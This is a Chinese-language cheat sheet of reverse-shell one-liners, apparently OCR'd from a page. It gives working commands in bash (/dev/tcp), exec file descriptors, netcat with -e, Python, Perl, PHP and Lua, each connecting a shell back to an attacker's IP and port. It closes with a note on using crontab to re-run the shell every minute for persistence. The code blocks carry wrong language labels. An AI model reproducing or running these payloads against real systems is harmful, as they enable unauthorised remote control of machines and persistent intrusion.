 ##### 反弹shell

bash方式

```ruby
$ bash -c "sh >& /dev/tcp/your ip/port 0>&1"
```

exec方式

```cobol
$ exec 5<>/dev/tcp/ip/port
```

$ cat <&5 | while read line; do $line 2>&5 >&5; done

nc方式

```cobol
    本机运行:    nc -l -vv -p port    目标主机:    nc -e /bin/bash ip port
```

python方式

```rust
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'   
```

另一种：

```cobol
  python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('ip',port))\nwhile 1:  proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"   
```

Perl方式

```swift
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'   
```

php方式

```swift
php -r '$sock=fsockopen("ip",port);exec("/bin/sh -i <&3 >&3 2>&3");'   
```

lua方式

```cobol
lua -e "require('socket');require('os');t=socket.tcp();t:connect('ip','port');os.execute('/bin/sh -i <&3 >&3 2>&3');"#需要lua socket支持，且lua5.2+不支持luasocket  
```

crontab方式

```cobol
crontab -e编辑当前用户的任务，或者是写到计划任务目录，一般是 /var/spool/cron/ 目录，ubuntu是/var/spool/cron/crontabs。文件名为用户名root等。下面命令含义是每一分钟执行一次反弹shell命令。
```
